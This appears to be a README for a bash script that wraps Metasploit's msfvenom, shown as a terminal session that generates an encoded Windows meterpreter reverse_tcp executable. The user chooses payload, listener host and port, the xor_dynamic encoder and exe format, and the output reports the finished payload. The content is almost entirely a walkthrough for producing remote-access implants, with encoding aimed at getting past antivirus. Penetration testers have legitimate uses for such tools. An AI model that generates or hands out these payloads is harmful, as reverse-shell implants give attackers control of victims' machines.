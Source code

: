 # msfvenom-quick-generater

root@FBI:~/文档# bash msfvenom.sh 

1) windows/x64/meterpreter/reverse_tcp
2) windows/x86/meterpreter/reverse_tcp
3) linuu/x64/meterpreter/reverse_tcp
4) linux/x86/meterpreter/reverse_tcp

Select your payload(1-4):1

Input your LHOST: 127.0.0.1

Input your LPORT: 6666

1) x64/xor_dynamic
2) x86/shikata_ga_nai

Select your encoder(default:none): 1

1) c
2) exe
3) elf

Select your formats(default:c): 2

Input your filename: IamLAJI 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor_dynamic
x64/xor_dynamic succeeded with size 560 (iteration=0)
x64/xor_dynamic chosen with final size 560
Payload size: 560 bytes
Final size of exe file: 7168 bytes

